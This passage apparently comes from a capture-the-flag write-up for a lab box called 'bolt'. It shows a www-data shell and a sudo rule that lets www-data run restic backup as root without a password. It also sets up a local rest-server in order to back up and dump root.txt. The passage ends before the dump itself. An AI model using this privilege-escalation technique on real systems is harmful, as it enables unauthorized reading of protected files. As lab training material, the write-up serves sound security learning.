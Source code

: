 Ok, we are ```www-data```now

```
www-data@bolt:~/html/bolt/files$ whoami
whoami
www-data
www-data@bolt:~/html/bolt/files$ 
```

To confirm out theory about ```www-data``` and ```restic```we run ```sudo -l```

``` 
www-data@bolt:~/html/bolt/files$ sudo -l
sudo -l
Matching Defaults entries for www-data on bolt:
    env_reset, exempt_group=sudo, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bolt:
    (root) NOPASSWD: /usr/bin/restic backup -r rest*
```

We can now be sure that www-data can run **/usr/bin/restic backup -r rest** as root without a password. 

## Backup and dump root.txt file

Now is the the part where I had to do a ton of research to understand this program. First I read the [documentation](https://restic.readthedocs.io/en/latest/) for restic.

```l
Restic is a fast and secure backup program. 
```

That's what the introduction tells us. Reading through the docs, I noticed two important thing:

- We can user a rest server as a repository
- We can dump the files that we backed up to standard output (stdout) 

Which gave me the idea that I had an arbitrary read on the server

I found this [Github](https://github.com/restic/rest-server) that has the binaries for running a rest server locally (Remember we can't make outbounds connections). I transferred the file using over ```ssh``` and started a server locally on the port 8000

```
bolt@bolt:/dev/shm/server$ ../rest-server --path ${PWD}
Data directory: /dev/shm/server
Authentication disabled
Private repositories disabled
Starting server on :8000
```

We need to create a repository on this server to stored the backup data.

```
bolt@bolt:/dev/shm/server$ restic init --repo rest:http://localhost:8000/
enter password for new repository: 
enter password again: 
created restic repository 417ad86527 at rest:http://localhost:8000/
```
